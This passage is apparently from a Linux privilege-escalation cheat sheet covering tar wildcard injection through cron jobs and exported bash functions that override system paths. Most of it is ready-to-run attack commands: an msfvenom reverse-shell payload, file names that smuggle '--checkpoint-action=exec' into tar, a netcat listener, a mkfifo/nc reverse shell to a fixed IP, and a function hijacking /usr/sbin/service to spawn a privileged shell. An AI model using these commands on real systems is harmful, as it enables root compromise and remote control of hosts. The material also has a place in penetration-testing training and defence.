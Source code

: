 ```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4545 -f elf -o shell.elf
```

Creating checkpoints as the shell

```
touch /home/user/--checkpoint=1  
touch /home/user/--checkpoint-action=exec=shell.elf
```

setting up a listener

```
nc -lvp 4545
```

Now if any script is running in cron tab and is using tar wild cards you will receive a shell.

**Reverse shell with Netcat**

Similarly we can create a bash script with netcat reverse shell

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.133.250 4545 >/tmp/f" > shell.sh
```

Then execute below commands \[1]

```
echo "" > "--checkpoint-action=exec=sh shell.sh"
```

\[2]

```
echo "" > --checkpoint=1
```

Last step is to let shell.sh run by the cron job running as root whether it is a script or something else.

#### Using shell functions

If bash version is running below 4.2-048, we can create shell functions with names that resemble specific file paths then export those functions so that they are used instead of any actual executable at that file path.

```
/bin/bash --version
```

Lets assume that there is a binary using the absolute bath of /usr/sbin/service as an example and is verified above the bash version is below 4.2-048 then we can create bash function with the name \[/usr/sbin/service] which executes bash shell

```
function /usr/sbin/service { /bin/bash -p; }  
export -f /usr/sbin/service
```

Last step is to run the binary that is using \[/usr/sbin/service]
